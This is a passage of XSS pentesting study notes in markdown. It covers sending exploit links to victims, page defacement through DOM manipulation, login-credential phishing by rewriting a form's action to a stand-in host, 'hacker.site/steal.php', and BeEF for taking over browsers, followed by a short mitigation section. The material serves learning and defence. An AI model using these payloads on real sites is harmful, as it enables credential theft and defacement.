
        * 

    * As pentesters, after finding xss and then craft an exploit link

      * we could send this to victim by email or IM if victim is a privileged user on target site [alice.xss] and if the rules of the engagement allow this, then we can also take advantage of URL Shrinking service like **tinyurl.com**  that *hides the payload* for us

  

  

  * ### Defacements

    * Defacement s considered one of the most immediately visible damages that and XSS may cause

    * victim of the attack is the website itself

    * This attack requires the presence of a persistent XSS in order to become a real defacement

    * When we find a persistent XSS, we are able to change the appearance of the web page by manipulating the DOM.

    * A typical DOM manipulation is useful at modifying the page appearance is the following way:

      * ```
        document.body.innerHTML="<h1>Defaced</h1>";
        ```

    * The DOM object body corresponds to the BODY tag that holds the  page content.

    * By setting its content, we basically replace the current content  with our own.

    

  * ### XSS for Advanced Phishing Attacks

    * Phishing attacks revolve around deceiving the user into thinking a website is a different website.

    * XSS Phishing instead sneakily modifies the **actual website**, increasing the chances of success.

    * Injecting script in a website, gives us complete control over the DOM of the page and we can control  almost everything

    * If Phisher's Objective -> steal login credentials  and  XSS is found on the login page of a website,

      * then only change to make would be in the login FORM, would make sure that the username and password would be redirected to a domain belonging to him

    * ```
      NOTE:
      
      SSL Certs, DNS Checks , blacklists and other phishing Defenses fail miserably in handling XSS phishing because the phishing website is the actual website.
      ```

    * Most basic way in performing XSS Phishing in a simple Login page is to  alter the **ACTION**  parameter of the FROM tag

    * A form tag usually has this structure

      * ```
        <form name="loginform" method="POST" action="/checklogin.cgi">
        ```

    * Inject the following JavaScript

      * ```
        document.forms[0].action="https://hacker.site/steal.php";
        ```

      * the page will remain completely unchanged - no modification to the appearance whatsoever and the URL in the location bar will remain the genuine URL (besides our payload maybe) of the website the victim wants to login to. 

      * SSL will not help the victim either

  * ### BEEF

    * Once got XSS, BEEF is the fastest way to exploit it and gain control of the remote browser
    * If the browser is unpatched or old, **BeEF and Metasploit Browser Autopwn** are capable of exploiting it to give you a remote shell on the remote machine.


---


### Mitigation


* Cross Site Scripting are **Data Validation vulnerabilities**
* XSS vulnerabilities can happen only if **untrusted user input**  is used on the web application **output**
* This kind of vulnerability is actually an **output encoding vulnerability**
* cross-site scripting exploitation happens when the when the attacker manages to inject code on the output!
* 
* 
* 
* 
* 


---


 